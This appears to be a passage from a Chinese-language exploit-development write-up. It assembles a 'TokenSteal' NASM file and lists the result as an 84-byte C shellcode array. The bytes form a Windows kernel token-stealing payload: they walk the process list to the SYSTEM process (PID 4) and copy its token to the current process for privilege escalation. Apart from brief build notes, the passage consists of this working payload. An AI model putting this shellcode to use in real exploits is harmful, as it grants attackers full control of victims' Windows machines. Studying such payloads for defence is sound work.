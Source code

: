 使用 nasm

```plain
& "C:\Users\xxxx\AppData\Local\bin\NASM\nasm.exe" -f win64 .\TokenSteal.asm -o .\TokenSteal.bin
```

编译出的文件位 COFF 格式，要提取出来，这里我用的是`CFF Explore`的快速反汇编定位到代码然后用`HxD`提取的

[![](assets/1706090578-acb8f9ba20268956674348221806d74d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132706-e1d3abd2-b8e6-1.png)

```plain
unsigned char cmd[84] = {
    0x48, 0x31, 0xC0, 0x65, 0x48, 0x8B, 0x80, 0x88, 0x01, 0x00, 0x00, 0x48,
    0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC1, 0x48, 0x8B, 0x80,
    0x48, 0x04, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x8B, 0x50, 0xF8, 0x49,
    0x89, 0xC0, 0x48, 0x8B, 0x00, 0x48, 0x83, 0xFA, 0x04, 0x75, 0xF0, 0x49,
    0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF8, 0x49, 0x8B, 0x89, 0xB8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xE1, 0x07, 0x48, 0x01, 0xCA, 0x49, 0x89, 0x91,
    0xB8, 0x04, 0x00, 0x00, 0x48, 0x31, 0xC0, 0x48, 0x83, 0xC4, 0x10, 0xC3
};
```

[![](assets/1706090578-fc6c84f9a51471fd82daf0072f4fe4f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132720-e9df8896-b8e6-1.png)
